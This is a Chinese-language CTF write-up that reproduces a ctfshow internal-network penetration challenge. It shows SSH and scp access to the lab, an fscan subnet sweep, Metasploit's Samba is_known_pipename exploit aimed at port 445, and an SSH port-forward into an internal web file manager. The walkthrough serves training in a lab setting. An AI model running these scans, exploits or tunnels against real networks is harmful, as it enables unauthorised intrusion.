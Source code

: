 # ctfshow内网渗透复现

<br>

## 复现过程

<br>

先放一下ssh命令:

````
ssh ctfshow@pwn.challenge.ctf.show -p 28169       #用于ssh连接题目shell
scp -P 28169 local_file ctfshow@pwn.challenge.ctf.show:/tmp     #用于上传东西
````

### 1.根据提示寻找有用的工具

<br>

题目提示我们攻击机有工具，利用find命令可以找到。或者直接乱翻文件，msf就在/opt目录下.

````
find / -name metasploit-framework
````
直接使用msfconsole报错，使用chmod 777 metasploit-framework 给权限后可以直接使用了


<img src="https://54huarui.github.io/blogs/internalwww/1.png" width="880" height="480">

<br>

### 2.扫描

<br>

因为是内网渗透，所以还是要做一些扫描。

上传fscan并扫描内网
````
scp -P 28169 local_file ctfshow@pwn.challenge.ctf.show:/remote/directory/
ifconfig           #查看ip
./fscan -h 172.2.162.4/24 -o fscan.log #扫描

````


<img src="https://54huarui.github.io/blogs/internalwww/2.png" width="880" height="480">


<br>

<img src="https://54huarui.github.io/blogs/internalwww/3.png" width="880" height="480">

<br>

这里我在网上找到个很奇怪的解，已知445端口存在一个samba的洞，可以直接打下来
````
msfconsole
use exploit/linux/samba/is_known_pipename
set rhost x.x.x.x
exploit 
````

然鹅卡在获得Starting interaction with 1...的提示了。这边不打算尝试了，估计是非预期解被修复了

本着学习的目的，继续尝试网上其他大佬的解法

<br>


刚刚扫描的时候发现一个80端口和文件管理系统，我们想办法进入看看怎么个事。网上有两种办法，一个是用ssh搭
socks5隧道，第二种就是用ssh映射直接映射到本地端口。我这里选择第二种办法

````
ssh -L 8085:172.2.249.5:80 ctfshow@pwn.challenge.ctf.show -p 28195
````

然后可以直接访问本地的8085端口

<img src="https://54huarui.github.io/blogs/internalwww/4.png" width="880" height="480">














































<br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>



## 写在前面

有些东西不好明说，但是那种感觉又回来了。再不调整自己就得落得不好的下场
